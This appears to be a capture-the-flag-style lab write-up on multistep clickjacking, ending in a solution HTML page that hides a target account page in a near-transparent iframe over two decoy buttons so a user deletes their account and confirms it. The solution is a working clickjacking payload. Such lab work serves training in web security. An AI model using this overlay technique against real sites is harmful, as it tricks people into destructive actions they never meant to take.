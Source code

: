 # Multistep clickjacking

## Description

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy. 

## Task 

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog. You will need to use two elements for this lab. 

## Solution

```xml
  <html>
  <head>
    <style>
      #target_website {
        position: relative;
        width: 500px;
        height: 280px;
        opacity: 0.50000001;
        z-index: 2;
        top: -250px;
        left: -20px;
      }
     
     .firstClick, .secondClick {
         position:absolute;
         top: 10px;
         left: 30px;
         z-index: 1;
     }
     
     .secondClick {
         left: 192px;
     }
    </style>
  </head>
  <body>
     <div class="firstClick"><button>first</button></div>
     <div class="secondClick"><button>second</button></div>
    <iframe id="target_website" src="https://accd1f1a1f233e72803a028b00a400fd.web-security-academy.net/account">
    </iframe>
  </body>

  </html>
```